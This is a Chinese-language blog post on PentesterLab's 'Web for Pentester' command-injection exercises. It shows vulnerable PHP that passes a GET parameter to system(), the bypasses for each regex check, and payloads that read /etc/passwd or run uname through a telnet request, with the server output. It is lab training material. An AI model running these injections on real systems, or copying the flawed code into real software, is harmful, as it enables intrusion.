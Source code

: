 ```yaml
---
title: 常见web漏洞-command execution
categories:
- web
tags:
- web
---
```


[资料下载：pentesterLab download](https://pentesterlab.com/exercises/web_for_pentester/)

---
![常见web漏洞](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/%E5%B8%B8%E8%A7%81web%E6%BC%8F%E6%B4%9E.png)

## 命令执行：
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/2.PNG)
#### 漏洞代码：
```
<?php
  system("ping -c 2 ".$_GET['ip']);
?>
```
system()函数，执行系统命令，
ping -c 2 ip，由于ip是客户端可控，导致命令执行。

---

#### 漏洞代码二：
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/3.PNG)
```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) {
     die("Invalid IP address");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
在执行命令之前，先正则表达式判断。

127.0.0.1;cat /etc/passwd
不满足正则表达式，所以返回无效的ip地址。

```
127.0.0.1
cat /etc/passwd
```
如果注入上面这样的代码，就会判断127.0.0.1是有效的ip，然后执行system函数

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/4.PNG)
将\n换行符url编码。

---

#### 漏洞代码三：
```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip']))) {
     header("Location: example3.php?ip=127.0.0.1");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
如果ip参数为正确的地址，则执行system()，否则就执行Location: example3.php?ip=127.0.0.1

- 效果展示
如果是有效地址，则ping给出的地址，如果是无效地址，就会ping 127.0.0.1。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/5.PNG)

- 漏洞利用
原理：由于在正则表达式判断ip地址时候，如果不符合，没有中止运行，而是302跳转到“Location: example3.php?ip=127.0.0.1”。
所以可以用nc或者telnet，观察到命令的执行结果。
```
telnet 192.168.2.131 80
GET /commandexec/example3.php?ip=127.0.0.1|uname+-a HTTP/1.0
```


```
HTTP/1.1 302 Found
Date: Tue, 13 Nov 2018 08:52:44 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze15
X-XSS-Protection: 0
Location: example3.php?ip=127.0.0.1
Vary: Accept-Encoding
Content-Length: 1535
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>PentesterLab &raquo; Web for Pentester</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="Web For Pentester">
    <meta name="author" content="Louis Nyffenegger (louis@pentesterlab.com)">

    <!-- Le styles -->
    <link href="/css/bootstrap.css" rel="stylesheet">

    <style type="text/css">
      body {
        padding-top: 60px;
        padding-bottom: 40px;
      }
    </style>
    <link href="/css/bootstrap-responsive.css" rel="stylesheet">

  </head>

  <body>

    <div class="navbar navbar-inverse navbar-fixed-top">
      <div class="navbar-inner">
        <div class="container">
          <a class="btn btn-navbar" data-toggle="collapse" data-target=".nav-collapse">
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </a>
          <a class="brand" href="https://pentesterlab.com/">PentesterLab.com</a>
          <div class="nav-collapse collapse">
            <ul class="nav">
              <li class="active"><a href="/">Home</a></li>
            </ul>
          </div><!--/.nav-collapse -->
        </div>
      </div>
    </div>

    <div class="container">



<pre>
Linux debian 2.6.32-5-686 #1 SMP Fri May 10 08:33:48 UTC 2013 i686 GNU/Linux
</pre>
      <footer>
        <p>&copy; PentesterLab 2013</p>
      </footer>

    </div> <!-- /container -->


  </body>
</html>

```

## 命令执行的函数
system、exec、passthru、shell_exec、popen、proc_open、pcntl_exec

[参考文档：命令执行函数](http://php.net/manual/zh/ref.exec.php)

## 命令执行漏洞的危害
可以使得攻击者反弹一个shell。
例如[LTR Scene（php写入一句话+sudoer提权）](https://whale3070.github.io/training/2018/11/10/x/)

[G0rmint（一句话写入log 提权）](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)
